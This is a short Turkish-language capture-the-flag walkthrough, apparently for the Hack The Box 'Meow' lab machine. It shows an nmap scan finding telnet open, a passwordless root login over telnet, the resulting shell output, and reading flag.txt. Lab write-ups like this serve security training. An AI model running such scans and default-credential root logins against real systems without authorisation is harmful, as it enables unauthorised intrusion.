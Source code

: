 # Meow

!!! info "Target IP Address"

    10.129.146.175

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.146.175
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 19:17 +03
Nmap scan report for 10.129.146.175
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds
```

Telnet ile hedefe bağlan ve ardından `root` kullanıcısı olarak giriş yap (telnet bağlantısında `root` kullanıcısı için parola istenmez):

```bash
telnet 10.129.146.175
```

```text title="Output"
Trying 10.129.146.175...
Connected to 10.129.146.175.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 10 Jan 2024 04:18:32 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.146.175
  IPv6 address for eth0: dead:beef::250:56ff:feb0:e22b

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
